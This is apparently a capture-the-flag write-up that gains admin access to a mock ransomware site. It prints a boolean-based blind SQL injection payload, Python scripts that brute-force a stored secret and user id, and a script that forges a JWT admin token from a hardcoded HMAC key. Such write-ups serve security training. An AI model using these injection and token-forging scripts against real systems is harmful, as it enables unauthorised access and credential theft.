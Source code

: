 # Task 7

## Description

With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.

Generate a new token value which will allow you to access the ransomware site as an administrator.

## Solution

After gaining access too the administrator pages and exploring the source code for them, a SQL injection vulnerability is revealed in the `/userinfo` page. The output of the SQL query all casted to integers before being displayed on the page, meaning only integers such as the `uid` can be leaked directly.

![](./img/sqli.png)

This is the only query in the entire website that does not use prepared statements. The injection can be triggered with `'<payload>;-- -`. The paylod below is a boolean basedblind sql injection used to brute force the hex encoded version of the secret.

`HealthyRespect' and (SELECT substr(hex(secret),1,1) FROM Accounts WHERE userName='HealthyRespect') = '4';-- -`

I scripted this attack with python to automatically extract the secret.

```python
import jwt
import sys
import requests
from datetime import datetime, timedelta

dictionary = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','fail']
secret = []

def gen_token():
    hmac = "hionYjaULMZE4sZnrWj4nzkEjmDUAdsb"
    now = datetime.now()
    exp = now + timedelta(days=30)

    claims = {
        'iat': int(now.timestamp()),
        'exp': int(exp.timestamp()),
        'uid': 26567,
        'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
    }

    return jwt.encode(claims, hmac, algorithm='HS256')

print('Found: ', end='')
sys.stdout.flush()
for i in range(1,65):
    for char in dictionary:

        if char == 'fail':
            print('Failed')
            exit()

        injection = f"HealthyRespect' and (SELECT substr(hex(secret),{i},1) FROM Accounts WHERE userName='HealthyRespect') = '{char}';-- -"

        cookie = {'tok':gen_token()}
        data = {'user':injection}

        r = requests.post('https://jbjlxkyofmpcxooy.ransommethis.net/qschfbjhzihmssyy/userinfo', cookies=cookie, data=data)

        if "User Info ()" not in r.text:
            print(f"{char}", end='')
            sys.stdout.flush()
            secret.append(char)
            break

print(f"\nSecret: {bytes.fromhex(''.join(secret)).decode('utf-8')}")
```

![](./img/getsecret.png)

I also used the same method of boolean based blind sql injection to brute force the uid, however since this is an integer value it can also be leaked directly.

```python
import jwt
import sys
import requests
from datetime import datetime,timedelta

dictionary = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','fail']
secret = []

def gen_token():
    hmac = "hionYjaULMZE4sZnrWj4nzkEjmDUAdsb"
    now = datetime.now()
    exp = now + timedelta(days=30)

    claims = {
        'iat': int(now.timestamp()),
        'exp': int(exp.timestamp()),
        'uid': 26567,
        'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
    }

    return jwt.encode(claims, hmac, algorithm='HS256')

print('Found: ', end='')
sys.stdout.flush()
for i in range(1,11):
    for char in dictionary:

        if char == 'fail':
            print('Failed')
            exit()

        injection = f"HealthyRespect' and (SELECT substr(hex(uid),{i},1) FROM Accounts WHERE userName='HealthyRespect') = '{char}';-- -"

        cookie = {'tok':gen_token()}
        data = {'user':injection}

        r = requests.post('https://jbjlxkyofmpcxooy.ransommethis.net/qschfbjhzihmssyy/userinfo', cookies=cookie, data=data)

        if "User Info ()" not in r.text:
            print(f"{char}", end='')
            sys.stdout.flush()
            secret.append(char)
            break

print(f"\nUID: {bytes.fromhex(''.join(secret)).decode('utf-8')}")
```

![](./img/getuid.png)

Using the information gathered from the previous injections I was able to forge an admin token allowing access to the admin panel.

```
import jwt
from datetime import datetime, timedelta
import requests

hmac = 'hionYjaULMZE4sZnrWj4nzkEjmDUAdsb'
now = datetime.now()
exp = now + timedelta(days=30)

claims = {
    'iat':int(now.timestamp()),
    'exp':int(exp.timestamp()),
    'uid':'34799',
    'sec':'K7crfGC6Y36pNq2uLlmkRH6Fp7GPY1hG'
}

tok = jwt.encode(claims, hmac, algorithm='HS256')
print(tok)
```

![](./img/admin.png)
